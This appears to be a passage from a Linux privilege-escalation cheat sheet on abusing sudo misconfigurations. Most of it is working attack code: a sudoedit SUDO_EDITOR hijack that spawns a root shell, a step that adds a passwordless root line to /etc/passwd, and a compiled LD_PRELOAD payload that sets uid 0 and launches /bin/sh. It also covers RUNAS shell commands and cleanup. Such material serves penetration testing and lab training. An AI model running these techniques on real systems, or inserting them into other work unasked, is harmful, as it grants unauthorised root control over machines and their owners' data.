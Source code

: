 sudoedit (-e) and editor hijacks
```
# If sudo -l shows: (root) NOPASSWD: sudoedit /path/to/file (or sudo -e)
# Try to force editor to spawn a shell:
SUDO_EDITOR="/bin/sh -c /bin/sh" sudo -e /etc/hosts
# If EDITOR/VISUAL is allowed or respected, this can drop a root shell in some setups.

# If allowed to edit sensitive files:
# Example: append a root user line to /etc/passwd (dangerous; use only in labs)
# Create a hash-less root line (no password), then login or su.
```
Note: sudoedit behavior varies with env_reset/env_keep and security patches; prefer GTFOBins on editors directly (sudo vim …) when allowed.

Environment variable abuse (only if sudoers allows it)
```
# Check for env_keep in sudo -l output, e.g., env_keep+=LD_PRELOAD or SETENV/!env_reset
sudo -l | grep -E 'env_keep|SETENV|env_reset' -i

# LD_PRELOAD technique (if allowed)
cat > /tmp/x.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void _init() { setuid(0); setgid(0); system("/bin/sh"); }
EOF
gcc -fPIC -shared -o /tmp/x.so /tmp/x.c -nostartfiles

# Run an allowed root binary while forcing preload (only if env_keep permits LD_PRELOAD)
sudo LD_PRELOAD=/tmp/x.so <allowed-root-binary>
```

RUNAS considerations
```
# If you are allowed to run as another user (check sudo -l):
sudo -u root /bin/sh
# Or:
sudo -u <otheruser> /bin/sh

# Edge case (older sudo versions had bypasses like -u#-1); don’t rely on this in modern systems.
```

Stabilize and verify
```
# After popping a shell:
id
whoami

# If shell lacks privileges, try -p flag to preserve euid:
bash -p 2>/dev/null || sh -p
```

Cleanup (lab hygiene)
```
# Remove artifacts if you created any
rm -f /tmp/x.c /tmp/x.so /tmp/bash 2>/dev/null
exit
```
